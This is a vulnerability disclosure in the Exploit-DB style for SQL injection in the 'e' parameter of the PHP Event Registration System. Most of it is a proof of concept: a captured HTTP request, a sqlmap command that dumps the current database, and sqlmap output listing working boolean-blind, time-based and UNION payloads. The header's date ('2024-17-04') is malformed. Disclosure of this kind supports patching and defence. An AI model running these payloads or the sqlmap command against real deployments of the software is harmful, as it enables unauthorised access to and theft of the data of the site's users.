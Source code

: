 # Event Registration System - SQL Injection - 3
+ **Exploit Title:** Event Registration System - SQL Injection - 3
+ **Date:** 2024-17-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/14884/event-registration-system-qr-code-php-free-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=14884&title=Event+Registration+System+with+QR+Code+in+PHP+Free+Source+Code
+ **Version:** Latest
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Event Registration System allows SQL Injection via the 'e' parameter at "event/registrar/?page=registration&e=c4ca4238a0b923820dcc509a6f75849b". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/event/registrar/"
+ Click a random event
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
GET /event/registrar/?page=registration&e=c4ca4238a0b923820dcc509a6f75849b HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36

```

+ Use sqlmap to exploit. In sqlmap, use 'e' parameter to dump the database.
```
sqlmap -r r.txt -p e --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
Parameter: e (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: page=registration&e=c4ca4238a0b923820dcc509a6f75849b' AND 5080=5080-- YzSR

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=registration&e=c4ca4238a0b923820dcc509a6f75849b' AND (SELECT 2736 FROM (SELECT(SLEEP(5)))hmeO)-- dtyk

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: page=registration&e=-4565' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7170766a71,0x774b754656496946706f737958487478466d45517941654e6145737672546d486b5050466a4d7845,0x716a7a7671),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[18:23:14] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:23:14] [INFO] fetching current database
current database: 'event_db'
```
+ current database: `event_db`

![Ekran görüntüsü 2024-05-18 222759](https://github.com/BurakSevben/CVEs/assets/117217689/943c3ab1-a010-4caf-86a4-71af5deaec4b)



